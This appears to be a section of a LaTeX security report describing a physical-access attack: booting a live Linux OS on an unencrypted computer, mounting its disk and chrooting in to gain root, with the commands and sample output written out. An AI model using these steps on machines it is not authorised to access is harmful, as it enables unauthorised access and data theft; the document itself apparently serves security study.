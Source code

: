 \subsection{Attack 1 - Booting into another OS}\label{a1}
This method is very simple: attacker has to boot into another OS to get full access to computer's data. In this example we use Live OS. Here we assume that computer has no full disk encryption enabled.


\paragraph*{Attacking}
\begin{enumerate}
    \item Insert a USB stick or an optical disk with any live linux OS. Reboot computer and boot into live OS \footnote{If it is server, then it is booted into main OS. Rebooting can be a signal to administrators that something is wrong, so this method is not stealth. If it is a personal computer, nobody would even notice that something has been stolen.}
    
    \item Get list of partitions \label{root-start}
\begin{lstlisting}
root@kali:/mnt# fdisk -l
Disk /dev/sda: 16 GiB, 17150550016 bytes, 33497168 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00046ad5

Device        Start     End    Sectors   Size Type
/dev/sda1      2048 31926271  31924224  15.2G Linux
/dev/sda2  31928318 33495039   1566722   765M Extended
/dev/sda3  31928318 33495039   1566720   765M Linux swap / Solaris
\end{lstlisting}

    \item Mount desired partition (in our case it is \texttt{/dev/sda1})
\begin{lstlisting}
root@kali:/mnt# mkdir disk
root@kali:/mnt# mount -t ext4 /dev/sda1 disk/
\end{lstlisting}

    \item \texttt{chroot} into mounted disk. This step allows an attacker to use commands like \texttt{passwd root} as if he had a root access in main OS. \label{root-end}
    
\begin{lstlisting}
root@kali:/mnt# chroot disk/
\end{lstlisting}
\end{enumerate}

